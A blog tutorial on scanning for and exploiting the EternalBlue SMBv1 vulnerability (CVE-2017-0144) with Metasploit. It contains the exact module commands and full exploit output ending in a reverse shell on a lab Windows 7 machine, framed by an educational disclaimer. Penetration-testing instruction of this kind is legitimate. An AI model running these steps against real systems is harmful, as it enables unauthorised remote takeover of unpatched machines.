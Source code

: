 ```yaml
---
title: "How to Utilize CVE-2017-0144 to Exploit Vulnerable Windows Machines (Scan and Exploit within RCE)"
date: 2018-05-19T21:57:25+0800
tags: ["Ethical Hacking", "Metasploit", "Penetration Testing", "Windows", "Windows Exploit", "Windows Vulnerability", "RCE", "Remote Code Execution", "CVE-2017-0144", "EternalBlue", "SMBv1", "WannaCry"]
lastmod: 2025-03-03T00:18:34+0800
---
```


## Introduction

In this article, I will guide you through the process of exploiting a Windows machine using the EternalBlue exploit (CVE-2017-0144) within the Metasploit framework. This exploit allows an attacker to gain remote code execution (RCE) on a vulnerable Windows machine.

### CVE-2017-0144

CVE-2017-0144 is a critical vulnerability in the Windows operating system that enables an attacker to execute arbitrary code on a remote system. This vulnerability was notably exploited by the WannaCry ransomware in 2017, causing widespread damage to organizations worldwide. It affects the SMBv1 protocol in Windows, allowing an attacker to send a specially crafted packet to a vulnerable system and execute arbitrary code.

Although this vulnerability is now considered old, I still remember the significant impact it had at the time. Today, let's explore how we can exploit this vulnerability using Metasploit.

## Disclaimer

This article is for educational purposes only. If you discover a vulnerable system, please report it to the system owner or administrator. Do not use this information for malicious purposes.

## Prerequisites

Before we begin, you need to have the following:

- A vulnerable Windows machine (Windows 7, Windows 8, Windows 10, Windows Server 2008, Windows Server 2012, Windows Server 2016)
- Kali Linux or any other GNU/Linux distribution with Metasploit installed

We assume that you have a strong understanding of ethical hacking and penetration testing concepts.

### Scanning for Vulnerable Machines

Metasploit provides a module to scan for vulnerable machines using the `smb_ms17_010` module. To use this module, follow these steps:

```bash
msfconsole
```

This command will open the Metasploit console. Once you are in the console, use the following command to load the `smb_ms17_010` module:

```bash
use auxiliary/scanner/smb/smb_ms17_010
```

Next, set the `RHOSTS` parameter to the IP range you want to scan. For example, to scan the IP address `192.168.0.113`, use the following command:

```bash
set RHOSTS 192.168.0.113
```

Now, initiate the scan by running the following command:

```bash
exploit
```

If the target machine is vulnerable, you will see the output: `Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)`.

### Exploiting the Vulnerability

After identifying a vulnerable machine, you can exploit the vulnerability using the `exploit/windows/smb/ms17_010_eternalblue` module. To use this module, follow these steps:

```bash
use exploit/windows/smb/ms17_010_eternalblue
```

Next, set the `RHOST` parameter to the IP address of the vulnerable machine. For example, to exploit the IP address `192.168.0.113`, use the following command:

```bash
set RHOST 192.168.0.113
```

Now, exploit the vulnerability by running the following command:

```bash
exploit
```

You should receive a command shell from the Windows machine. You can now execute any command on the target machine, gaining full control over it using CVE-2017-0144.

```
[*] Started reverse TCP handler on 192.168.0.106:4444
[*] 192.168.0.113:445 - Connection to target for exploitation.
[+] 192.168.0.113:445 - Connection established for exploitation.
[+] 192.168.0.113:445 - Target OS selected valid for OS indicated by SMB reply
[*] 192.168.0.113:445 - CORE raw buffer dump (38 bytes)
[*] 192.168.0.113:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 55 6c 74 69 6d 61 Windows 7 Ultima
[*] 192.168.0.113:445 - 0x00000010  74 65 20 36 2e 31 20 53 65 72 76 69 63 65 20 50 te 6.1 Service P
[*] 192.168.0.113:445 - 0x00000020  61 63 6b 20 31 20 78 36 34 20 28 36 34 2d 62 69 ack 1 x64 (64-bi
[*] 192.168.0.113:445 - 0x00000030  74 29 00 t).
[*] 192.168.0.113:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 192.168.0.113:445 - Trying exploit with 12 Groom Allocations.
[*] 192.168.0.113:445 - Sending all but last fragment of exploit packet
[*] 192.168.0.113:445 - Starting non-paged pool grooming
[*] 192.168.0.113:445 - Sending SMBv2 buffers
[*] 192.168.0.113:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 192.168.0.113:445 - Sending final SMBv2 buffers.
[*] 192.168.0.113:445 - Sending last fragment of exploit packet!
[*] 192.168.0.113:445 - Receiving response from exploit packet
[*] 192.168.0.113:445 - ETERNALBLUE overwrite completed...
[*] 192.168.0.113:445 - Sending egg to corrupted connection.
[*] 192.168.0.113:445 - Triggering free of corrupted buffer.
[*] Command shell session 1 opened (192.168.0.106:4444 -> 192.168.0.113:49187) at 2018-05-19 12:56:02 -0400
[*] 192.168.0.113:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[*] 192.168.0.113:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[*] 192.168.0.113:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=

Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation. All rights reserved.

C:\Windows\system32> cd ..
cd ..

C:\Windows> cd ..
cd ..

C:\> mkdir Hacked
mkdir Hacked
```

You now have full control over this exploit. You can perform any actions you desire on this machine.

![Exploiting Windows Machine](./featured.png)

## Conclusion

Exploiting CVE-2017-0144 using the Metasploit framework demonstrates the importance of keeping systems updated and patched against known vulnerabilities. While this article serves as a guide for educational purposes, it is crucial to remember the ethical implications of such actions. Always ensure that you have permission to test and exploit systems, and report any vulnerabilities you discover to the appropriate authorities.

## References

- Computer Skill. (2018, May 20). *Kali Linux - Tutorial #2 Using EternalBlue Hack Windows7 By IPV4* [Video]. YouTube. https://www.youtube.com/watch?v=mA1_o68khmc
- Computer Skill. (2018, May 20). *Kali Linux - Tutorial #1 Using EternalBlue Scanner* [Video]. YouTube. https://www.youtube.com/watch?v=WucGHIB7cJI
